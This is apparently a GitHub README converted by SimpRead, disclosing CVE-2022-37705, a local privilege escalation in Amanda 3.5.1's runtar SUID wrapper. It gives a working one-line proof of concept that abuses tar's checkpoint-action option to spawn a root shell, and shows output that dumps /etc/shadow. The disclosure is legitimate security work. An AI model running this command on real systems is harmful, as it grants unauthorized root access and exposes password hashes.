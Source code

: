 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [github.com](https://github.com/MaherAzzouzi/CVE-2022-37705)

> Amanda 3.5.1 second LPE. Contribute to MaherAzzouzi/CVE-2022-37705 development by creating an account......

> [Suggested description] A privilege escalation flaw was found on Amanda 3.5.1 that can take backup user to root privileges. The vulnerable component is the runtar SUID that is just a wrapper to run /usr/bin/tar with specific arguments that are controllable by the attacker. The program does not check correctly the args passed to tar binary (it assumes that all args should be like this --ARG VALUE but we can provide this --ARG=VALUE as one argument).
> 
> * * *
> 
> [Additional Information] This flaw can be used for Code Execution, Denial of Service, Escalation of Privileges and Information Disclosure. This is the PoC to exploit it and get a root shell: backup@maher:/lib/amanda$ id uid=34(backup) gid=34(backup) groups=34(backup),6(disk),26(tape)
> 
> backup@maher:/lib/amanda$ head /etc/shadow head: cannot open '/etc/shadow' for reading: Permission denied
> 
> backup@maher:/lib/amanda$ ./runtar NOCONFIG tar --create --file=/dev/null --checkpoint=1 --directory=. --checkpoint-action=exec=/bin/sh /dev/null tar: Removing leading `/' from member names
> 
> [](#head-etcshadow)head /etc/shadow
> ===================================
> 
> root:!:19132:0:99999:7::: daemon:_:19101:0:99999:7::: bin:_:19101:0:99999:7::: sys:_:19101:0:99999:7::: sync:_:19101:0:99999:7::: games:_:19101:0:99999:7::: man:_:19101:0:99999:7::: lp:_:19101:0:99999:7::: mail:_:19101:0:99999:7::: news:*:19101:0:99999:7:::
> 
> * * *
> 
> [VulnerabilityType Other] Flawed Arguments Checking.
> 
> * * *
> 
> [Vendor of Product] Amanda
> 
> * * *
> 
> [Affected Product Code Base] runtar - 3.5.1
> 
> * * *
> 
> [Affected Component] The affected SUID binary is : runtar The affected file is : runtar.c The affected lines of code start at line 162.
> 
> * * *
> 
> [Attack Type] Local
> 
> * * *
> 
> [Impact Code execution] true
> 
> * * *
> 
> [Impact Denial of Service] true
> 
> * * *
> 
> [Impact Escalation of Privileges] true
> 
> * * *
> 
> [Impact Information Disclosure] true
> 
> * * *
> 
> [Attack Vectors] To exploit the binary you just have to give crafted arguments to the runtar SUID binary to escalate to root.
> 
> * * *
> 
> [Reference] [http://www.amanda.org/](http://www.amanda.org/)
> 
> * * *
> 
> [Discoverer] Maher Azzouzi

Use CVE-2022-37705.